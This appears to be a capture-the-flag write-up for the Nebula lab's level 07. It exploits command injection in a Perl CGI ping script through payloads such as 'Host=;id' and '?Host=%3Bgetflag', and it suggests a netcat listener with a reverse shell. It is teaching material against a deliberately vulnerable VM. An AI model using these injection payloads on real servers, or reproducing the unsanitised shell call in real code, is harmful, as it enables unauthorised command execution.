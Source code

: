 ```yaml
---
layout: post
title: "Nebula07"
tags: Nebula
description: "Exploiting a command injection in the Perl web server"
---
```



## Level 07

> The `flag07` user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. To do this level, log in as the `level07` account with the password `level07`. Files for this level can be found in `/home/flag07`.

## Source code

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
## Getting the flag

This is a common codebase vulnerable to command injection. Calling a system function and translating user input as an argument without any sanitization generally is not so great idea. In a case like that and attacker could try to "pipe" the other commands to the execution with the `;` symbol.  The `;` is using to drop the argument and execute the next command right after it, something like `<command1>`;`<command2>`.  
Let's try to exploit this particular example!  
There are two files in the `flag07` directory:
```
level07@nebula:/home/flag07$ ls
index.cgi  thttpd.conf
```

The `index.cgi` is a program the with the source code we just reviewed. Let's try to execute it in a proper flow:

```
evel07@nebula:/home/flag07$ ./index.cgi Host=localhost
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=0.043 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=0.042 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 0.022/0.035/0.043/0.011 ms
```

And as we already feagured out the injection point, let's try it out too:

```
level07@nebula:/home/flag07$ ./index.cgi Host=;id
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
</pre></body></html>uid=1008(level07) gid=1008(level07) groups=1008(level07)
```

So we have a command injection. We can't grab the flag from that point, as we will get the `getflag is executing on a non-flag account, this doesn't count` message. Instead, let's check the other file in the folder:
```
level07@nebula:/home/flag07$ cat thttpd.conf 
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07

# Do a chroot() at initialization time, restricting file access to the program's
# current directory. If chroot is the compiled-in default (not the case on
# Debian), then nochroot disables it. See thttpd(8) for details.
nochroot
#chroot

# Specifies a directory to chdir() to after chrooting. If you're not chrooting,
# you might as well do a single chdir() with the dir option. If you are
# chrooting, this lets you put the web files in a subdirectory of the chroot
# tree, instead of in the top level mixed in with the chroot files.
#data_dir=

# Don't do explicit symbolic link checking. Normally, thttpd explicitly expands
# any symbolic links in filenames, to check that the resulting path stays within
# the original document tree. If you want to turn off this check and save some
# CPU time, you can use the nosymlinks option, however this is not
# recommended. Note, though, that if you are using the chroot option, the
# symlink checking is unnecessary and is turned off, so the safe way to save
# those CPU cycles is to use chroot.
#symlinks
#nosymlinks

# Do el-cheapo virtual hosting. If vhost is the compiled-in default (not the
# case on Debian), then novhost disables it. See thttpd(8) for details.
#vhost
#novhost

# Use a global passwd file. This means that every file in the entire document
# tree is protected by the single .htpasswd file at the top of the tree.
# Otherwise the semantics of the .htpasswd file are the same. If this option is
# set but there is no .htpasswd file in the top-level directory, then thttpd
# proceeds as if the option was not set - first looking for a local .htpasswd
# file, and if that doesn't exist either then serving the file without any
# password. If globalpasswd is the compiled-in default (not the case on Debian),
# then noglobalpasswd disables it.
#globalpasswd
#noglobalpasswd

# Specifies what user to switch to after initialization when started as root.
user=flag07

# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi

# Specifies a file of throttle settings. See thttpd(8) for details.
#throttles=/etc/thttpd/throttle.conf

# Specifies a hostname to bind to, for multihoming. The default is to bind to
# all hostnames supported on the local machine. See thttpd(8) for details.
#host=

# Specifies a file for logging. If no logfile option is specified, thttpd logs
# via syslog(). If logfile=/dev/null is specified, thttpd doesn't log at all.
#logfile=/var/log/thttpd.log

# Specifies a file to write the process-id to. If no file is specified, no
# process-id is written. You can use this file to send signals to thttpd. See
# thttpd(8) for details.
#pidfile=

# Specifies the character set to use with text MIME types.
#charset=iso-8859-1

# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
```

Noticed anything useful? Yes, the user `flag07` is running the webserver on the port `7007` with the same vulnerable binary.  
There are a few avenues to get the flag here:
- Open your browser with something like `http://<ip_of_the_vm>:7007/index.cgi?Host=%3Bgetflag` 
- `nc -nlvp 9001` listener on the `level07` machine, and any reverse shell send as a command to the webserver
- `wget` of the `getflag` with the  URL specified above

Note: The `%3B` is the URL-encoded `;` symbol

